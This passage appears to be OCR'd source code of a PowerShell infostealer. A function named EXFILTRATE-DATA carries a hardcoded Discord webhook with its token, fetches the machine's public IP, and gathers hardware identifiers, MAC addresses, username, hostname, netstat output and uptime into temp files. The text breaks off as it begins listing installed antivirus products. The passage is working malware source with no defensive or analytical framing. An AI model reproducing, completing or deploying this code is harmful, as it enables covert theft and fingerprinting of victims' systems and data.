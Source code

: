 function CHECK_IF_ADMIN {
    $test = ([Security.Principal.WindowsPrincipal] [Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltinRole]::Administrator); echo $test
}

function EXFILTRATE-DATA {
    $webhook = "https://discord.com/api/webhooks/1101041695111532596/mFrO1y2gmmE2Uq0LBbbEGXImRMdj7o9COmXIeV68NpdJE3xek66tY2Qh8ApnQnHt02y4"
    $ip = Invoke-WebRequest -Uri "https://api.ipify.org" -UseBasicParsing
    $ip = $ip.Content
    $ip > $env:LOCALAPPDATA\Temp\ip.txt
    $lang = (Get-WinUserLanguageList).LocalizedName
    $date = (get-date).toString("r")
    Get-ComputerInfo > $env:LOCALAPPDATA\Temp\system_info.txt
    $osversion = (Get-WmiObject -class Win32_OperatingSystem).Caption
    $osbuild = (Get-ItemProperty -Path c:\windows\system32\hal.dll).VersionInfo.FileVersion
    $displayversion = (Get-Item "HKLM:SOFTWARE\Microsoft\Windows NT\CurrentVersion").GetValue('DisplayVersion')
    $model = (Get-WmiObject -Class:Win32_ComputerSystem).Model
    $uuid = Get-WmiObject -Class Win32_ComputerSystemProduct | Select-Object -ExpandProperty UUID 
    $uuid > $env:LOCALAPPDATA\Temp\uuid.txt
    $cpu = Get-WmiObject -Class Win32_Processor | Select-Object -ExpandProperty Name
    $cpu > $env:LOCALAPPDATA\Temp\cpu.txt
    $gpu = (Get-WmiObject Win32_VideoController).Name 
    $gpu > $env:LOCALAPPDATA\Temp\GPU.txt
    $format = " GB"
    $total = Get-CimInstance Win32_PhysicalMemory | Measure-Object -Property capacity -Sum | Foreach {"{0:N2}" -f ([math]::round(($_.Sum / 1GB),2))}
    $raminfo = "$total" + "$format"  
    $mac = (Get-WmiObject win32_networkadapterconfiguration -ComputerName $env:COMPUTERNAME | Where{$_.IpEnabled -Match "True"} | Select-Object -Expand macaddress) -join ","
    $mac > $env:LOCALAPPDATA\Temp\mac.txt
    $username = $env:USERNAME
    $hostname = $env:COMPUTERNAME
    $netstat = netstat -ano > $env:LOCALAPPDATA\Temp\netstat.txt
	
	$mfg = (gwmi win32_computersystem).Manufacturer 
	
	# System Uptime
	function Get-Uptime {
    $ts = (Get-Date) - (Get-CimInstance -ClassName Win32_OperatingSystem -ComputerName $computername).LastBootUpTime
    $uptimedata = '{0} day(s) {1} hour(s) {2} minute(s) {3} second(s)' -f $ts.Days, $ts.Hours, $ts.Minutes, $ts.Seconds
    $uptimedata
    }
    $uptime = Get-Uptime
	
	# List of Installed AVs
	